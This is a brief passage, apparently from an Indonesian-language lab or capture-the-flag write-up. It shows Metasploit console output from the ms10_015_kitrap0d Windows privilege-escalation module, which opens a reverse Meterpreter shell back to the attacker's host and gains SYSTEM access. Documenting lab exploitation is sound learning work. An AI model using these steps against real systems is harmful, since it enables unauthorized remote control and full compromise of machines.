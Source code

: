 ```bash

msf6 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] Reflectively injecting payload and triggering the bug...
[*] Launching netsh to host the DLL...
[+] Process 2872 launched.
[*] Reflectively injecting the DLL into 2872...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175174 bytes) to 10.129.136.185
[*] Meterpreter session 2 opened (10.10.14.15:4444 -> 10.129.136.185:49174 ) at 2022-10-14 07:19:50 -1000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

sesuai dengan ekspetasi, saya berhasil mendapatkan akses penuh pada sistem tersebut.



